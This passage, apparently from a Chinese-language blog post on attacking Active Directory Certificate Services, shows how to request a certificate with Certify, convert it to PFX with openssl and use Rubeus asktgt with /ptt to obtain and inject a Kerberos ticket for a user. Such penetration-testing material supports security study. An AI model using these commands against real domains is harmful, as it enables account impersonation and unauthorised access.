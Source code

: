 需要注意的是，要想成功使用 Certify 的 `request` 命令，需要将 Certify 项目中生产的 DLL 依赖 Interop.CERTENROLLLib.dll 复制到 Certify.exe 的相同目录下。

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/YjSfHXiR8qE23tD.png)

成功执行后，将输出证书 + 私钥的 .pem 格式的文本块，需要使用前面提到过的 openssl 命令将其转换为与 Rubeus 兼容的 .pfx 格式。

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

然后可以将 .pfx 上传到目标并与 Rubeus 一起使用，为该用户请求 TGT 并将其传递到内存中，相关命令如下，执行结果如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:Marcus /certificate:C:\Users\Marcus\cert.pfx /password:Passw0rd /ptt
```
